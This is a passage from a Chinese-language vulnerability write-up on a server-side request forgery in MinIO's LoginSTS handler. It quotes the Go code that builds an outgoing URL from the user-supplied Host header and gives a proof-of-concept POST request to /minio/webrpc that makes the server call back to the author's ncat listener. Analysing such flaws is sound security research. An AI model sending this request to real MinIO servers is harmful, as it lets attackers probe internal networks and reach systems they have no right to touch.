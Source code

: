 简化其代码如下：

```
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中Host的值是我本地ncat开放的端口（`192.168.1.142:4444`）：

```
POST /minio/webrpc HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

[![image-20210124215812861.png](/assets/PeiQi-Wiki/img/ebe8ebd1-d1c1-4d28-92e7-8da4774e940e.6488ddc9fcc5.png)](https://www.leavesongs.com/media/attachment/2021/01/30/ebe8ebd1-d1c1-4d28-92e7-8da4774e940e.png)

可以确定这里存在一个SSRF漏洞了。

仔细观察，可以发现这是一个POST请求，但是Path和Body都没法控制，我们能控制的只有URL中的一个参数`WebIdentityToken`。

但是这个参数经过了URL编码，无法注入换行符等其他特殊字符。这样就比较鸡肋了，如果仅从现在来看，这个SSRF只能用于扫描端口。我们的目标当然不仅限于此。
